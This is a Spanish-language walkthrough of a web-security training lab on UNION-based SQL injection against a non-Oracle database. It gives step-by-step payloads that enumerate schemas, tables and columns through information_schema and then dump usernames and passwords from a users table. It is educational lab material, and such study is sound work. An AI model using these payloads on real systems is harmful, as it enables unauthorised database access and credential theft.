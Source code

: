 # 📚 Lab: SQL injection attack, listing the database contents on non-Oracle databases 📚

Como sabemos que la base de datos no es oracle y que la vulnerabilidad esta en la categoria de productos, podemos analizar la cantidad de columnas despues de seleccionar un producto con el siguiente comando en la url:  
' UNION SELECT null,null-- -.

Al hacerlo, podremos descubrir que la tabla, tiene dos columnas, luego, con el siguinte comando:  

## Listar nombres de las bases de datos

' UNION SELECT schema_name,NULL FROM information_schema.schemata-- -
 
Al hacerlo, podremos ver la base de datos "public", la cual nos interesa para este room.

## Mostrar las tablas en la base de datos "public"

' UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema = 'public'-- -

Donde podremos ver las tablas products y users_xktbui, la cual esta ultima es la que nos interesa.

## Mostrar las columnas de la tabla users

' UNION SELECT COLUMN_NAME,NULL FROM information_schema.columns WHERE table_name = 'users_xktbui'-- -

Al hacerlo, veremos dos columnas que componen a la tabla users, una sera de usuarios y otras de contraseñas:password_ywzksf y username_kifewi.

## para acceder a la informaciion de las columnas, haremos uso de la siguiente inyeccion: 

' UNION SELECT username_kifewi,password_ywzksf FROM users_xktbui-- -

Donde le decimos a la base de datos, muestra la columna usermane y password de la tabla users_xktbui, obtiendo asi las credenciales necesarias.

### OPCIONAL,hacerlo de esta forma para mayor orden en los datos

' UNION SELECT CONCAT(username_kifewi,':',password_ywzksf),null FROM users_xktbui-- -
